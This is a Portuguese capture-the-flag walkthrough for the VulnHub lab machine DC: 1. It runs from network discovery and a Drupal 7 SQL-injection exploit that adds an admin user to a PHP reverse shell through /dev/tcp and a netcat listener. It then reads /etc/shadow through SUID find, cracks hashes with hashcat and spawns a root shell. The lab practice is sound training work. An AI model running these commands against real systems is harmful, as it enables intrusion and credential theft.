





# DC: 1

Location: [vulnhub.com](vulnhub.com)  
Dificuldade: Easy

## Identificação e Enumeração

O primeiro passo foi encontrar o IP da VM:
```
# netdiscover -i vboxnet0 
```


Tendo o IP em mãos, podemos fazer um portscan simples para identificar os serviços que estão rodando
```
# nmap -sV -sT -p- 192.168.56.101
```
  
Segundo o scan, temos um http na porta 80, ssh na porta 22 e um rpc na porta 111. Iniciando pela porta 80, vemos a página principal do drupal, um CMS escrito em PHP. Se olharmos o arquivo robots.txt, encontramos vários diretórios e arquivos que ele desabilita para robôs de busca, um desses arquivos é o UPGRADE.txt que mostra que a versão do drupal é a 7. Essa versão tem uma [falha de SQL injection](https://www.exploit-db.com/exploits/34992) que permite adicionar um administrador.
  

## Exploração

Fazendo download desse exploit executando para explorar, conseguimos ver que realmente era vulnerável.
```
$ python2 34992.py -t http://192.168.56.101 -u rootpwned -p rootpwned
```
  
Com o user adicionado, podemos fazer login e tentar conseguir acesso a uma shell, logo na primeira página temos um link dizendo "Add new content", e depois "Basic page", a primeira vista só é possível adicionar conteúdo HTML, mas se formos em Configuration > Text Formats > Add new format > PHP evaluator. Depois disso se voltarmos em Basic Page, vemos que existe uma opção para adicionar trechos PHP, então basta adicionar o seguinte trecho:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/1234 0>&1'");
```
E no terminal, colocar a porta 1234 em modo listening:
```
$ nc -vvnlp 1234
```
OBS.: mudar o IP

Aqui vemos a flag1
```
$ cat flag1.txt
```
E se entrarmos em /home/flag4 vemos a flag4
```
$ cat flag4.txt
```
Depois de pegar essas duas flags, executei o LinEnum para automatizar o processo de escalação de privilégios

## PrivEsc

```
$ wget http://192.168.56.1/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```
  
Temos vários arquivos SUID, entre eles o find que tem o parâmetro -exec para executar comandos do linux, como ele é executado como root, temos acesso a arquivos, como o shadow e a pasta pessoal do root:
```
$ find /etc -name shadow -exec cat {} \;
```
copiando o conteúdo do arquivo para sua máquina local, podemos tentar quebrar com o hashcat ou john:
```
hashcat -a 0 -m 1800 shadow /usr/share/wordlists/rockyou.txt 
```
 no meu caso, só consegui a senha do usuário flag4, mas como o find estava sendo executado como root, podemos ler a flag ou executar o bash como root:
```
$ find /root
```
Vemos que o nome do arquivo é thefinalflag.txt
```
$ find /root/thefinalflag.txt -exec cat {} \;
```
Dessa forma é possível ler a flag, mas se quisermos um shell como root, podemos fazer:
```
$ find /root/thefinalflag.txt -exec sh \;
```